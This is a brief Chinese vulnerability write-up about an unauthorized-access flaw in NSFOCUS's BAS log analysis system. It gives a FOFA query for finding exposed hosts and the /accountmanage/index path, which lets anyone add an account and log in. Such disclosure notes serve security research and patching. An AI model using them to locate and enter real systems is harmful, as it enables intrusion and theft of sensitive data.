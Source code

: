 # 绿盟 BAS日志数据安全性分析系统 accountmanage 未授权访问漏洞

## 漏洞描述

绿盟 BAS日志数据安全性分析系统存在未授权访问漏洞，通过漏洞可以添加任意账户登录平台获取敏感信息

## 漏洞影响

```
绿盟 BAS日志数据安全性分析系统
```

## FOFA

```
body="WebApi/encrypt/js-sha1/build/sha1.min.js"
```

## 漏洞复现

登录页面

![image-20220525145937586](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251459725.png)

未授权页面

```
/accountmanage/index
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251500626.png)

添加用户并登录

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251500966.png)

使用账户登录后台

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251500218.png)